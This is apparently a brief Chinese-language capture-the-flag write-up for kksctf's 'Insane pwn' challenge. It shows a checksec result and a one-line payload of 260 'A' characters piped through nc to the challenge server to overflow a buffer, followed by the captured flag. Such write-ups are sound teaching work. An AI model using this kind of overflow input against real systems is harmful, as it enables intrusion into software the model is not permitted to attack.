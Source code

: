 Insane pwn题目描述：
There supposed to be some uncrackable badass pwn, but, you know, all this festive mood around and i am a kind fellow, so just for this time take easy one instead...let it be our little secret. Happy New Year! :)

按照惯例运行一下发现
Hello! I am x86 vulnerable programm and have and inner buffer size of 256 bites
Can you lead me to segmentation fault please?
1234
Hit me harder!

查看一下保护手段
$ checksec ./insane_pwn
[*] '/home/ubuntu/Desktop/insane_pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

发现全部保护都开着
立即推，放弃比赛

当然不可以，仔细分析一下程序就可以得到只需输入260个字符即可覆盖0xDEADBEEF从而获取输出的flag

# python -c "print 'A'*260" |  nc tasks.open.kksctf.ru 10003
# kks{W0w_th15_w@5_4w350m3!}


tips:
gdb
disass func_name
